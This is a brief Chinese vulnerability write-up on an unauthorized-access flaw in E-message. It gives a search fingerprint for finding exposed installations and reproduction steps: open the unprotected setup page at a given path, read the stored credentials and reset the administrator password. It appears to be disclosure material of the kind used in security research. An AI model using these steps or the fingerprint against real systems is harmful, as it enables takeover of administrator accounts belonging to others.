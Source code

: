 # 

# E-message 越权访问漏洞

## 漏洞描述

E-message 存在越权访问漏洞，由于配置页面没有做权限设定，导致攻击者可以访问并重置账号密码等操作

## 漏洞影响

```
E-message
```

## 网络测绘

```
title="emessage 设置: 数据库设置 - 标准连接"
```

## 漏洞复现

访问安装页面

```plain
http://xxx.xxx.xxx.xxx/setup/setup-datasource-standard.jsp
```

![](./images/202202101934751.png)



可以获取账号密码信息，一路点击右下角的继续将会跳转修改管理员账号密码页面，修改后登录即可获取后台权限



![](./images/202202101934975.png)
